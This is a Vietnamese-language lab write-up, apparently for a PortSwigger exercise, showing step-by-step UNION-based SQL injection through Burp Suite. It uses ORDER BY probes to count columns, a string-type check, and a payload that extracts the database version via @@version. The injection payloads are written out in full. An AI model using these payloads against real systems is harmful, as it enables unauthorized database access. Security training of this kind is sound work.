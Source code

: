 # SQL injection attack, querying the database type and version on MySQL and Microsoft

Bài lab này yêu cầu ta truy cập vào dữ liệu liên quan tới version của phiên bản MySQL, Microsoft.

Đầu tiên ta mở `Burpsuite` và thực hiện gửi request tới `Repeater` rồi tiến hành kiểm tra xem có bao nhiêu cột bằng cách thay đổi payload của `Get request` thành:
- `/filter?category=Gifts'+ORDER+BY+1#`
- `/filter?category=Gifts'+ORDER+BY+2#`
- `/filter?category=Gifts'+ORDER+BY+3#`(tới đây thì server error, vậy là chỉ có 2 cột)

Tiếp theo ta tiến hành kiểm tra kiểu dữ liệu trong cột xem có phải ở dạng chuỗi không(vì thông tiên phiên bản được hiển thị ở dạng chuỗi) với payload của `Get request` như sau:
- `/filter?category=Gifts'+UNION+SELECT+'abc',+'def'#`

![](https://github.com/Luwcj/SQLi/blob/main/Portswigger/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/2.1.png?raw=true)

Tiếp theo ta truy cập vào dữ liệu trong cột @@version và lấy thông tin thui:
- `/filter?category='+UNION+SELECT+@@version,NULL#`

![](https://github.com/Luwcj/SQLi/blob/main/Portswigger/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/2.2.png?raw=true)
